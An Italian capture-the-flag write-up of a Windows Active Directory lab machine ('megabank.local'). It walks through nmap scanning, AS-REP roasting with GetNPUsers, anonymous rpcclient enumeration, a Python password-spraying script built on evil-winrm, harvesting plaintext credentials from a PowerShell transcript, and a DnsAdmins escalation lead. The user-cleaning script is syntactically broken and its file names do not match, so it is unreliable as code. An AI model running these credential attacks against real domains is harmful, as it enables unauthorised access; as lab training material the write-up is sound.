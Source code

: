 ## Information Gathering

Tramite una prima scansione al volo con nmap scopro i seguenti servizi interessanti attivi:

```
nmap -sV -sS -O -A <IP>

PORT     STATE SERVICE      VERSION
53/tcp   open  domain
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-04-02 17:57:14Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped

```

Contemporaneamente con enum4linux sono emersi diversi usernames e gruppi. Prelevo il frammento e "pulisco" il testo per estrarre gli usernames puliti con il seguente script:

```
import re 

users = "[Administrator] rid:[0x1f4] \
user:[Guest] rid:[0x1f5] \
etc..."

usr = users.split("user")

for x in usr:
	y = re.findall("\[(.*?)\]", x)[0]
	with open("clean_usr.txt", mode="w+") as f:
    f.write(y)
```
Creato il listato, lo uso per provare a sniffare dei TGT dal servizio di Kerberos:

```
python GetNPUsers.py htb.local/ -no-pass -usersfile clean_user.txt -dc-ip 10.10.10.XXX
```
Ma non ne ricavo nulla...
Quindi effettuo anche una scansione del servizio rpcclient:

```
rpcclient -W workgroup -c querydispinfo -U '' -N  res
```

E scopro una password default per l'utenza "marko": Welcome123!

## Exploiting in the System

A questo punto, grazie a [Lorenzo Invidia](https://github.com/lorenzoinvidia), scopro che la password non è più valida per Marko, tuttavia potrebbe essere valida per altri!

Quindi scrivo il seguente script, che prova a collegarsi alla macchina (e con la password sopracitata) per tutti gli utenti ricavati:

```
import os

with open("users_list.txt", mode="r") as f:
	users = f.read().splitlines()

for x in users:
	stream = os.popen("evil-winrm -u "+ x +" -p Welcome123! -i resolute")

	if "WinRM::WinRMAuthorizationError" in stream.read():
		print "[-] " + x + " non valido"
	else:
		print "[*] Utente trovato: " + x
		exit(0)
```

Trovo così l'utenza di melanie. Entro nel sistema e trovo il primo flag!

## Privilege Escalation

#### Phase 1

Ho tentato svariati tentativi, ho lanciato WinPeas, ho provato a recuperare le credenziali di AutoLogon di Administrator tramite Metasploit ma non sono riuscito a recuperare niente. Questo punto ho notato che esistono tanti utenti presenti all'interno del sistema quindi ho ricercato possibili credenziali in chiaro. 

Inizialmente non ho rinvenuto alcun file, quindi ho cercato i file nascosti (partendo da melanie) con:

```
Get-ChildItem -Force -Hidden -Recurse 2>$null
```

Ma non ho trovato nulla. Quindi, facendo partire il comando dalla root del disco C: trovo parecchi file interessanti nascosti, fra cui anche il SAM e SYSTEM. (Ma forse non sono accessibili, non ho provato).

Fra tutti i file, mi è saltato all'occhio:

* PowerShell_transcript...txt

Aprendolo trovo le credenziali per l'utente ryan, in chiaro! Quindi loggo all'interno del sistema con le sue creds.

#### Phase 2

Ho lanciato nuovamente winPEAS ma non ho trovato nulla, quindi comincio con la verifica dei permessi e dei gruppi:

```
net user ryan /domain
```
Ma non trovo niente, quindi provo con: 
```
whoami /all
```

E leggo la riga: 

```
MEGABANK\DnsAdmins   Alias S-1-5-21-[...]-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group

```

Quindi noto che appartiene al gruppo DnsAdmins, vulnerabile (di cui esiste anche un exploit in Msf).

    
